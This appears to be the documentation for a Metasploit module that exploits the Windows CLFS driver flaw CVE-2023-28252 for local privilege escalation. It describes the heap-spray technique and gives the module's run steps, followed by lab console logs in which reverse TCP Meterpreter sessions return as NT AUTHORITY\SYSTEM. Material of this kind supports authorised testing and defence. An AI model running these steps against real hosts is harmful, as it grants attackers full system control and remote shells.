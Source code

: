## Vulnerable Application

A privilege escalation vulnerability exists in the clfs.sys driver which comes installed by default on
Windows 10 21H2, Windows 11 21H2 and Windows Server 2022 (Build 20348) operating systems. 

The clfs.sys driver contains a function CreateLogFile that is used to create
open and edit '*.blf' (base log format) files. Inside a .blf file there are multiple blocks of data which
contain checksums to verify the integrity of the .blf file and to ensure the file looks and acts like a
.blf file. However, these files can be edited with CreateFileA or with fopen and then modified with
WriteFile or fwrite respectively in order to change the contents of the file and update their checksums accordingly.

This exploit makes use to two different kinds of specially crafted .blf files that are edited using the technique
mentioned above. There are multiple spray .blf files. The spray .blf files are specially crafted to initiate an out of
bounds read which reads from a contiguous block of memory. The block of memory it reads from contains a read-write pipe
that points to the address of the second type of .blf file - the trigger .blf file. The trigger .blf file is specially 
crafted read the SYSTEM token and write it in the process of the exploit to achieve the local privilege escalation.

The exploits creates a controlled memory space by first looping over the CreatePipe function to
to create thousands of read-write pipes (which take up 0x90 bytes of memory). It then releases a certain number of
pipes from memory and calls CreateLogFile to open the pre-existing spray .blf files which when being opened fill the
0x90 byte gaps created by the deallocation of the pipes in memory, creating the controlled memory space.

This is a very brief and high overview description of what the exploit is actually doing. For a more detailed and in
depth analysis please refer to the following [reference](https://github.com/fortra/CVE-2023-28252).

### Installation And Setup
Windows 11 versions 21H2 are vulnerable out of the box.
This exploit module has been tested on Windows 11 versions 21H2 build 22000.

## Options  

## Verification Steps

1. Start msfconsole
1. Get a Meterpreter session on a vulnerable host
1. Do: `use windows/local/cve_2023_28252_clfs_driver`
1. Set the `SESSION` and `PAYLOAD` options
1. Do: `run`
1. You should get a privileged session.

## Scenarios

### Windows Server 2022 Build 20348 x64
```
msf6 exploit(multi/handler) > use windows/local/cve_2023_28252_clfs_driver
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2023_28252_clfs_driver) > run

[*] Started reverse TCP handler on 172.16.199.1:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is running windows version: 10.0.20348.0 which has a vulnerable version of clfs.sys installed by default
[*] Launching msiexec to host the DLL...
[+] Process 6080 launched.
[*] Reflectively injecting the DLL into 6080...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.134
[*] Meterpreter session 11 opened (172.16.199.1:4443 -> 172.16.199.134:49864) at 2023-07-31 13:44:35 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-2EEL7BRDUD8
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

### Windows 11 Version 21H2 Build 22000 x64
```
msf6 exploit(windows/local/cve_2023_28252_clfs_driver) > sessions -i 1
[*] Starting interaction with 1...
msf6 exploit(windows/local/cve_2023_28252_clfs_driver) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is running windows version: 10.0.22000.0 which has a vulnerable version of clfs.sys installed by default
[*] Checking compatibility
[*] Launching netsh to host the DLL...
[+] Process 9124 launched.
[*] Reflectively injecting the DLL into 9124...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.132
[*] Meterpreter session 4 opened (172.16.199.1:4443 -> 172.16.199.132:49894) at 2023-07-31 11:24:01 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MSFDEVICE
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows 10 Version 19042 x64
```
msf6 exploit(multi/handler) > use windows/local/cve_2023_28252_clfs_driver
msf6 exploit(windows/local/cve_2023_28252_clfs_driver) > run

[*] Started reverse TCP handler on 172.16.199.1:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is running windows version: 10.0.19042.0 which has a vulnerable version of clfs.sys installed by default
[*] Launching netsh to host the DLL...
[+] Process 4888 launched.
[*] Reflectively injecting the DLL into 4888...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.131
[*] Meterpreter session 13 opened (172.16.199.1:4443 -> 172.16.199.131:49840) at 2023-07-31 14:34:37 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-8ATHH6O
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
